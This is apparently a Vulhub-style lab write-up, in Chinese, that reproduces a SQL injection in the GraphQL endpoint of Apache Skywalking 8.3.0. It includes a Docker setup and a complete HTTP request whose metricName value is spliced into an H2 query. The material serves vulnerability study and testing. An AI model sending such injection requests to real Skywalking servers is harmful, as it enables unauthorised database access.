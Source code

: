 # Apache Skywalking 8.3.0 graphql SQL注入漏洞

## 漏洞描述

Apache Skywalking是一款针对分布式系统的应用程序性能监视工具，为微服务，云原生和基于容器（Docker，Kubernetes，Mesos）的体系结构而设计。

在Apache Skywalking 8.3.0版本及以前的GraphQL接口中，存在一处H2 Database SQL注入漏洞。

参考链接：

- https://mp.weixin.qq.com/s/hB-r523_4cM0jZMBOt6Vhw
- https://github.com/apache/skywalking/commit/0bd81495965d801315dd7417bb17333ae0eccf3b#diff-ec87a1cdf66cdb37574d9eafd4d72d99ed94a38c4a8ff2aa9c7b8daeff502a2c

## 环境搭建

Vulhub执行如下命令启动一个Apache Skywalking 8.3.0版本：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看Skywalking的页面。

## 漏洞复现

可见，SQL语句已经出错，`metricName`参数的值被拼接到`from`后面。

![image-20220301101805554](images/202203011018294.png)

这个请求的HTTP数据包为：

```
POST /graphql HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 405

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```